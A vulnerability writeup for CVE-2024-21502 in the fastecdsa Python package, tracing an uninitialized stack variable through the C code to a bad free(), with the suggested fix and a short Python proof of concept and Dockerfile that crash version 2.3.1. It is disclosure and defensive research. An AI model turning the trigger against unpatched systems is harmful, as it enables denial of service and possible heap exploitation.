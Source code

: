 +++
title = 'CVE-2024-21502 writeup'
date = 2024-03-04T01:00:00+03:00
tags = ['cve', 'writeup']
toc = true
tldr = 'memory corruption in Python binary package'
+++


## Overview

_Assigned CVE_: [CVE-2024-21502](https://www.cve.org/CVERecord?id=CVE-2024-21502)

_Snyk advisory_: [SNYK-PYTHON-FASTECDSA-6262045](https://security.snyk.io/vuln/SNYK-PYTHON-FASTECDSA-6262045)

_GitHub commit_: [fix memory corruption issue](https://github.com/AntonKueltz/fastecdsa/commit/57fc5689c95d649dab7ef60cc99ac64589f01e36)


## Package details

_Package manager_: pip

_Affected module_: [fastecdsa](https://pypi.org/project/fastecdsa/)

_GitHub repo_: [AntonKueltz/fastecdsa](https://github.com/AntonKueltz/fastecdsa)

_Module description_:

> This is a python package for doing fast elliptic curve cryptography, specifically digital signatures.


## Vulnerability description

Memory corruption in Python external module. Possible risk: denial of service, sensitive info leakage, remote code execution.

Vulnerability: uninitialized variable on the stack. Since the variable is used and interpreted as user-defined type, it leads to undefined behaviour. Depends on the variable's actual value it could be arbitrary `free()`, arbitrary `realloc()`, null pointer dereference and other.


## Vulnerability details

Actual source code is here: https://github.com/AntonKueltz/fastecdsa/tree/v2.3.1

The vulnerability is located in file [src/curveMath.c](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c). Function [curvemath_mul](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L210) is used to calculate point multiplication. This is a binding, so the function could be called from Python code directly.

```c
static PyObject * curvemath_mul(PyObject *self, PyObject *args) {
    char * x, * y, * d, * p, * a, * b, * q, * gx, * gy;

    if (!PyArg_ParseTuple(args, "sssssssss", &x, &y, &d, &p, &a, &b, &q, &gx, &gy)) {
        return NULL;
    }

    PointZZ_p result;
    mpz_t scalar;
    mpz_init_set_str(scalar, d, 10);
    CurveZZ_p * curve = buildCurveZZ_p(p, a, b, q, gx, gy, 10);;

    PointZZ_p * point = buildPointZZ_p(x, y, 10);
    pointZZ_pMul(&result, point, scalar, curve);
    destroyPointZZ_p(point);
    destroyCurveZZ_p(curve);

    char * resultX = mpz_get_str(NULL, 10, result.x);
    char * resultY = mpz_get_str(NULL, 10, result.y);
    mpz_clears(result.x, result.y, scalar, NULL);

    PyObject * ret = Py_BuildValue("ss", resultX, resultY);
    free(resultX);
    free(resultY);
    return ret;
}
```

Please notice that variable `PointZZ_p result` is unitialized. Then it's passed to functions `pointZZ_pMul` and `mpz_clears`. Our target is the second function `mpz_clears` since it calls `free()` internally. We need to remain the variable uninitialized after calling `pointZZ_pMul`.

Let's look at the function [pointZZ_pMul](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L124). Here is the code at the beginning:

```c
void pointZZ_pMul(PointZZ_p * rop, const PointZZ_p * point, const mpz_t scalar, const CurveZZ_p * curve) {
    // handle the identity element
    if(pointZZ_pIsIdentityElement(point)) {
        return pointZZ_pSetToIdentityElement(rop);
    }

    PointZZ_p R0, R1, tmp;
    mpz_inits(R1.x, R1.y, tmp.x, tmp.y, NULL);
    mpz_init_set(R0.x, point->x);
    mpz_init_set(R0.y, point->y);
    pointZZ_pDouble(&R1, point, curve);

    // truncated because the last part is not relevant
}
```

The first parameter (`PointZZ_p * rop`) is not initialized again (it's responsibility of the caller). Passing condition `pointZZ_pIsIdentityElement(point)` is trivial because we can construct arbitrary curve and arbitrary point on it. Let's look at the function [pointZZ_pSetToIdentityElement](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L23):

```c
void pointZZ_pSetToIdentityElement(PointZZ_p * op) {
    mpz_set_ui(op->x, 0);
    mpz_set_ui(op->y, 0);
}
```

The parameter `PointZZ_p * op` is still not initialized. This is an undefined behaviour again.

So, the complete path below:

1. Python code (point multiplication)

2. Call function `curvemath_mul` (unitialized variable `result`)

3. Call function `pointZZ_pMul` (unitialized argument `rop`)

4. Call function `pointZZ_pSetToIdentityElement` (unitialized argument `op`)

5. Return from function `pointZZ_pSetToIdentityElement` (argument `op` is still unitialized)

6. Return from function `pointZZ_pMul` (argument `rop` is still unitialized)

7. Call function `mpz_clears` (unitialized arguments)

8. Call function `free` (argument is not initialized)

Since the stack can be controlled by attacker, the vulnerability could be used to corrupt allocator structure. It leads to possible heap exploitation.


## Suggested fix

Add initialization of variable:

```c
PointZZ_p result;
mpz_inits(result.x, result.y, NULL);
```


## How it was found

Some time ago I've created a curve with b=0. Since the point (0, 0) is on created curve, the vulnerability was trigged accidentally. I started the investigation and found the root cause.


## How to reproduce

I've tested it on Ubuntu 22.04.3 LTS, kernel version: 5.15.0-84-generic.

There is a simple PoC:

```python
#!/usr/bin/env python3

import sys
print(sys.version)

from fastecdsa.curve import Curve
from fastecdsa.point import Point

import time
time.sleep(2) # time to attach in gdb

MyCurve = Curve(
    p  = 0x10001,
    a  = 0x3,
    b  = 0x0,
    q  = 0x10202,
    gx = 0x427e,
    gy = 0x4ccb,
    name = 'MyCurve',
)

P = Point(x = 0, y = 0, curve = MyCurve)
print(P)

Q = 123 * P # trigger is here
print(Q)
```

The trigger is located in line 25. You could use Dockerfile in order to preserve the environment:

```Dockerfile
FROM python:3.11@sha256:4f7a334f9b8941fc7779e17541eaa0fd6043bdb63de1f5b0ee634e7991706e63

RUN pip install fastecdsa==2.3.1

COPY poc.py /tmp/poc.py

ENTRYPOINT python3 -u /tmp/poc.py
```

1. Build the image

```bash
docker build --tag fastecdsa-poc .
```

2. Run the image

```bash
docker run --rm fastecdsa-poc
```

3. Expected behaviour

```bash
$ docker run --rm fastecdsa-poc     
3.11.8 (main, Feb 13 2024, 09:58:12) [GCC 12.2.0]
X: 0x0
Y: 0x0
(On curve <MyCurve>)
free(): invalid pointer
Aborted (core dumped)
```


## Conclusion

The bug has been fixed in v2.3.2
